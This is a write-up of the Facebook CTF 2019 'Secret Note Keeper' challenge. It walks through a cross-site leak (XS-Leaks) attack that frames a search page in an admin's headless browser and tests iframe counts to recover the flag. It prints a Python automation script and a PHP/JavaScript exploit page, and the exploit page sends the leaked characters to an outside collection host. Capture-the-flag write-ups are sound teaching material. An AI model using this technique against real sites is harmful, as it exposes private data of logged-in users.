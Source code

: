 ```yaml
---
comments: true
title: Writeup Secret Note Keeper (xs-leaks) Facebook CTF 2019
date: 2019-07-03 00:00:00 +0700
category:
- ctf
tags:
- fbctf
private: false

---
```

### Writeup Secret Note Keeper (xs-leaks) Facebook CTF 2019

![](/uploads/fbctf.PNG)

#### English

Were given a website that was able to create note, report note and have a function to search note, the search note function will return each note using an iframe tag, our task is to extract the flag from administrator note.

we found that the report function is sending this json data 

    {"title":"My note","body":"x","link":"you_note_link"}

and we was able to change the link parameter into any resource that we want the admin to visit I try to send my webserver into the link parameter 

    {"title":"My note","body":"x","link":"https://myserver:1337"}

after couple seconds get request from someone that i believe the administrator from secret keeper note website with user agent _Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/74.0.3729.169 Safari/537.36._

since the administrator open our url using an **HeadlessChrome** we are able to execute any javascript on behalf as administrator but the thing is how we are able to extract the sensitive information from secret keeper note ? here is come the **xs-leaks power** to extract data from secret keeper note by abusing the search function using side channel attack.

as we know the search function is not implemented **X-Frame-Options** so we are able to frame the url from any origin and the parameter to search a note is using GET parameters so we can specify what query to extract from the GET parameters, search endpoint is look like this [http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query= "http://challenges.fbctf.com:8082/search?query=")YOUR_QUERY if we use an iframe to secret note keeper from an administrator browser it will use the administrator cookies to open the frame right with an xs-leaks we are able to detect if our search result contains iframe or not using javascript **contentWindow.length** and based on that we are able to build an javascript payload to extract secret from administrator.

I create script to automate the process to extract flag and using hosted requestb.in to grab the response.

    # xs-leaks.py
    import hashlib
    import time
    import itertools
    import string
    import requests
    import os
    import random
    
    def crack(target, size=1):
        for xs in itertools.product("0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ", repeat=size):
            pw = ''.join(xs)
    	if target == hashlib.md5(pw).hexdigest()[:5]:
                return pw
        return crack(target, size+1)
    
    req = requests.session()
    creds = random.random()
    req.post("http://challenges3.fbctf.com:8082/login",data={"username":str(creds),"password":str(creds)})
    exploit_url ="http://49d351c5.ngrok.io/xs-leaks.php?1={}"
    flag = "fb"
    
    while(1):
    	expl_url = exploit_url.format(flag).replace("&lt;","<")
    	quest = req.get("http://challenges3.fbctf.com:8082/report_bugs").text.split("proof of work for ")[1].split(" (proof of work is first 5")[0]
    	pow = crack(quest)
    	req.post("http://challenges3.fbctf.com:8082/report_bugs",data={"title":flag,"body":"x","link":expl_url,"pow_sol":pow}).text
    	os.system("sleep 5")
    	tmp  = req.get("http://35.247.145.15:8000/wrymemwr?inspect").text.split("query=")[1]
            tmpx = tmp[:len(flag)+1]
    
    	if(tmpx[len(tmpx)-1] != "<"):
                    flag = tmpx
    
    	print "Current Flag: " + flag

#### xs-leaks.py explaination

* login using random credentials
* sovling the captcha using crack function ( this is added by facebook team in the middle of ctf after the bot died multiple times because of everyone send tons of request to the bot )
* report bug into secret note keeper with exploit url (xs-leaks.php)
* sleep 5 ( wait the bot to response )
* lookup the requestb.in if the administrator already respond and extract the data
* print current flag

Another script to make this exploit complete is xs-leaks.php

    <!-- xs-leaks.php -->
    <head><script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script></head>
    <body>
      <script>
    	var chars = "_abcdefghijklmnopqrstuvwxyz{}1234567890|<@$^*()!>";
            function measureUrl(url, callback) {
                var iframe = $('<iframe />');
                iframe.attr('src', url);
                iframe.css('display', 'none');
                iframe.on('load', function () {
                    if(callback) callback(url, this.contentWindow.length);
                });
                $('body').append(iframe);
            }
            var flag = '<?=$_GET[1]?>';
            for (var i = 0; i < chars.length; i++) {
                var u = 'http://challenges.fbctf.com:8082/search?query=' + flag+chars.charAt(i);
                measureUrl(u, function(url, res) {
                   if (res!=0) {
                       measureUrl('http://35.247.145.15:8000/wrymemwr?a=' + url);
                   }
                });
            }
      </script>
    </body>
    

#### xs-leaks.php explaination

* loads jquery
* use flag variable from $_GET\[1\]
* bruteforce using chars defined with search query from an iframe ( if contentWindows.lenght != 0 it means the character is found )
* if the javascript detect valid character send it into self hosted requestb.in ( xs-leaks.py will extract the character and append current flag until the last character )

#### Terminal explains more loud

![](/uploads/xs-leaks.PNG)

Automated solve: [https://asciinema.org/a/249560](https://asciinema.org/a/249560 "https://asciinema.org/a/249560")